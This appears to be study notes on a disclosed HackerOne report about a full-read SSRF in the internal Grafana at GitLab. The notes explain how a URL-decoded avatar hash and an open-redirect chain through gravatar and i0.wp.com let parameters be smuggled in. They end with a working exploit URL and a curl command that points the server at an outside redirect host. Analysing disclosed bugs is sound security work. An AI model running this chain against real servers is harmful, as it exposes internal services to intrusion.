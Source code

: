 ## Full Read SSRF on Gitlab's Internal Grafana
https://hackerone.com/reports/878779

Analysis 

1. Learnt about the route
   ```
   	r.Get("/avatar/:hash", avatarCacheServer.Handler)
   ```
  Here, the hash is taken from `/avatar/:hash` and route it to `secure.grafana.com` in order to access a user's gravatar and the code looks like 
  ```
  const (
	  gravatarSource = "https://secure.gravatar.com/avatar/"
  )
  ...
  case err = <-thunder.GoFetch(gravatarSource+this.hash+"?"+this.reqParams, this):
  ```
  this.hash referenced in the code is the hash passed via `/avatar/:hash` *URL DECODED*.
  The `:hash` is URL DECODED allows us to smuggle in our own parameters in the requests. 

  *Redirection 01*
  If you supply parameter d on `secure.gravatar.com` it allows redirection to `i0.wp.com` where some of the images are hosted.

  The format of urls on `ip.wp.com`  are as follow `i0.wp.com/{domainOfImage}/{pathOfImage}`
  some of the images were hosted over `bp.blogspot.com`  Following code was used for the open redirect 
  `i0.wp.com/{domainOfImage}/{pathOfImage}`
  `http://i0.wp.com/google.com/1.bp.blogspot.com/`


  A complete chain of open redirection 
```
https://secure.gravatar.com/avatar/anything?d=/google.com/1.bp.blogspot.com/
->
http://i0.wp.com/google.com/1.bp.blogspot.com/
->
https://google.com/1.bp.blogspot.com
```

Finally using this it was possible for SSRF 

```
https://dev.gitlab.org/-/grafana/avatar/tesata?d=redirect.rhynorater.com/1.bp.blogspot.com/YOURHOSTHERE&cachebust
```

(`redirect.rhynorater.com` is configured to redirect to any host provided after the `1.bp.blogspot.com` directory)

```
curl "https://dev.gitlab.org/-/grafana/avatar/test?d=redirect.rhynorater.com/1.bp.blogspot.com/poc.rhynorater.com&cachebust"
```

